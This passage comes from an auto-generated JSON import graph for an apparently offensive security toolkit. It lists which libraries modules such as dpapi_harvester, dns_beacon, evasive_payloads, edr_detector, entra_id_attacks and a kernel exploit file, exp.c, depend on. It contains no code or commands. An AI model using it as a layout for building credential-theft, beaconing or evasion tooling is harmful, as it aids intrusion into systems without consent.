"EXTRACTED", "relation": "imports", "source": "modules/cve_matcher.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cve_matcher.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cve_matcher.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cve_matcher.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dacl_abuse.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dacl_abuse.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dacl_abuse.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dacl_abuse.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dashboard_bp.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dashboard_bp.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dashboard_bp.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dashboard_bp.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dashboard_bp.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dashboard_bp.py", "target": "flask_login"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dashboard_bp.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dashboard_engine.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dashboard_engine.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dashboard_engine.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dashboard_engine.py", "target": "collections"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dashboard_engine.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dashboard_engine.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dashboard_engine.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dashboard_engine.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dashboard_engine.py", "target": "xml.etree.ElementTree"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/db.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/db.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/db.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/db.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/db.py", "target": "sqlite3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/db.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/db.py", "target": "xml.etree.ElementTree"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/db.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/db.py", "target": "contextlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/db.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/db.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/db.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/db.py", "target": "core.crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/db.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/db.py", "target": "core.crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/delegation_attacks.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/delegation_attacks.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/delegation_attacks.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detailed_search.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detailed_search.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detailed_search.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detailed_search.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detailed_search.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detailed_search.py", "target": "bs4"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detection_feed.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detection_feed.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detection_feed.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detection_feed.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detection_feed.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detection_feed.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detection_feed.py", "target": "modules.detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detection_feed.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detection_feed.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detection_oracle.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detection_oracle.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detection_oracle.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detection_oracle.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detection_oracle.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detection_oracle.py", "target": "modules.detection_feed"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detection_oracle.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detection_oracle.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/detection_oracle.py", "target": "modules.detection_feed"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dns_beacon.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dns_beacon.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dns_beacon.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dns_beacon.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dns_beacon.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dns_beacon.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dns_beacon.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dns_beacon.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dns_beacon.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dns_beacon.py", "target": "dns.resolver"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dns_beacon.py", "target": "dns.resolver"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dns_beacon.py", "target": "dns.resolver"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dns_beacon.py", "target": "dns.resolver"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dns_beacon.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/domain_dominance.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/domain_dominance.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/domain_dominance.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/domain_dominance.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/domain_dominance.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/domain_dominance.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/domain_dominance.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/domain_dominance.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/domain_dominance.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/domain_dominance.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/domain_dominance.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/domain_dominance.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dotnet_payload.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dotnet_payload.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dotnet_payload.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dotnet_payload.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dotnet_payload.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dotnet_payload.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dotnet_payload.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dotnet_payload.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dpapi_harvester.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dpapi_harvester.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dpapi_harvester.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dpapi_harvester.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dpapi_harvester.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dpapi_harvester.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dpapi_harvester.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dpapi_harvester.py", "target": "sqlite3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dpapi_harvester.py", "target": "sqlite3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dpapi_harvester.py", "target": "cryptography.hazmat.primitives.ciphers.aead"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dpapi_harvester.py", "target": "cryptography.hazmat.primitives.ciphers.aead"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dpapi_harvester.py", "target": "ctypes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/dpapi_harvester.py", "target": "ctypes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/edr_detector.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/edr_detector.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/edr_detector.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/edr_detector.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/edr_detector.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engage_summary.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engage_summary.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engage_summary.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engage_summary.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engage_summary.py", "target": "modules.enrich"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engage_summary.py", "target": "xml.etree.ElementTree"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engage_summary.py", "target": "cli.recommendation_signals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engage_summary.py", "target": "modules.evidence"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engagement_hooks.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engagement_hooks.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engagement_hooks.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engagement_hooks.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engagement_hooks.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engagement_hooks.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engagement_hooks.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engagement_hooks.py", "target": "urllib.error"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engagement_hooks.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engagement_hooks.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engagement_hooks.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engagement_hooks.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engagement_hooks.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engagement_hooks.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/engagement_hooks.py", "target": "collab_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/enrich.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/enrich.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/enrich.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/enrich.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/enrich.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/enrich.py", "target": "concurrent.futures"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/enrich.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/enrich.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/entra_id_attacks.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/entra_id_attacks.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/entra_id_attacks.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/entra_id_attacks.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/entra_id_attacks.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/entra_id_attacks.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_fusion.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_fusion.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_fusion.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_fusion.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_fusion.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_importer.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_importer.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_importer.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_importer.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_importer.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_importer.py", "target": "sqlite3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_importer.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_importer.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_importer.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_importer.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_importer.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_importer.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_importer.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_importer.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_importer.py", "target": "networkx"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_importer.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/estorides_importer.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evasion_engine.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evasion_engine.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evasion_engine.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evasion_engine.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evasion_engine.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evasion_engine.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evasion_engine.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evasion_engine.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evasion_engine.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evasive_payloads.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evasive_payloads.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evasive_payloads.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evasive_payloads.py", "target": "string"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evasive_payloads.py", "target": "zlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evasive_payloads.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_bus.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_bus.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_bus.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_bus.py", "target": "queue"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_bus.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_bus.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_bus.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_bus.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_bus.py", "target": "collections"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_bus.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_bus.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_bus.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_bus.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_bus.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_bus.py", "target": "engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_bus.py", "target": "collab_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_consumers.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_consumers.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_consumers.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_consumers.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_consumers.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_consumers.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_consumers.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_consumers.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_consumers.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_consumers.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_consumers.py", "target": "modules.event_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_consumers.py", "target": "modules.event_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_consumers.py", "target": "modules.state_manager"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_consumers.py", "target": "modules.state_manager"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_engine.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_engine.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_engine.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_engine.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/event_engine.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evidence.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evidence.py", "target": "binascii"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evidence.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evidence.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evidence.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evidence.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evidence.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/evidence.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "arpa/inet.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "sched.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "fcntl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "err.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "libmnl/libmnl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "libnftnl/chain.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "libnftnl/expr.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "libnftnl/rule.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "libnftnl/table.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "libnftnl/set.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "linux/netfilter.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "linux/netfilter/nf_tables.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "linux/netfilter/nfnetlink.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "sys/types.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "signal.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "net/if.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "asm/types.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "linux/netlink.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "linux/rtnetlink.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "sys/socket.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "linux/ethtool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "linux/sockios.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "sys/xattr.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "sys/ipc.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "sys/msg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "sys/syscall.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "assert.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "netinet/in.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "stdint.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "syscall.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "mqueue.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "linux/io_uring.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "linux/keyctl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "sys/shm.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exp.c", "target": "sys/mman.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_chain.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_chain.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_chain.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_chain.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_chain.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_chain.py", "target": "xml.etree.ElementTree"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_chain.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_chain.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_recommender.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_recommender.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_recommender.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_recommender.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_recommender.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_recommender.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_recommender.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_recommender.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_recommender.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_recommender.py", "target": "packaging.version"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploit_recommender.py", "target": "packaging.version"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploitgym_gym.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploitgym_gym.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploitgym_gym.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploitgym_gym.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploitgym_gym.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploitgym_gym.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploitgym_gym.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploitgym_gym.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploitgym_gym.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/exploitgym_gym.py", "target": "modules.redteam_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/finding_lifecycle.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/finding_lifecycle.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", 